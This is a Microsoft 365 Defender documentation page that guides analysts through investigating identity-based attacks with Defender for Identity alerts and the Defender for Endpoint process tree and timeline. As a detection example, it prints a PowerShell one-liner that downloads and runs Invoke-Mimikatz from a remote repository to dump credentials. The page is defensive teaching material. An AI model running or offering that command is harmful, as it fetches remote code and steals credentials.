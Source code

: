 ```yaml
---
title: Other investigation paths-Identity-based attacks
description: Other investigation paths-Identity-based attacks.
keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords: 
  - NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection: 
  - M365-security-compliance
  - m365initiative-m365-defender
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.technology: m365d
---
```

# Other investigation paths-Identity-based attacks

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to compromise entities in your organization. Since Defender for Identity integrates with Microsoft 365 Defender, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Investigating the attack in Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection source on the alerts tab of the incidents page. In the following example, the detection source is filtered to Defender for Identity. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Example of filtering the detection source for Defender for Identity":::

Selecting the **Suspected overpass-the-hash attack** alert brings you to a page in Microsoft Cloud App Security that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) as well as remediation suggestions.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Example of a Suspected overpass-the-hash attack alert"::: 

## Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incidents list, then select the Alerts tab. From here, you can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here select an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Example of an Endpoint Detection and Response in Defender for Endpoint"::: 

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Example of an alert process tree in Defender for Endpoint"::: 

Each process can be expanded to view additional details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Example of process details in Defender for Endpoint":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To do this an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Example of starting at the time of the alert detection"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to accomplish this is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Example of how Notepad was used to make a malicious outbound connection"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will simply use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections via commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with Powershell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Analyze incidents](investigate-incidents.md)
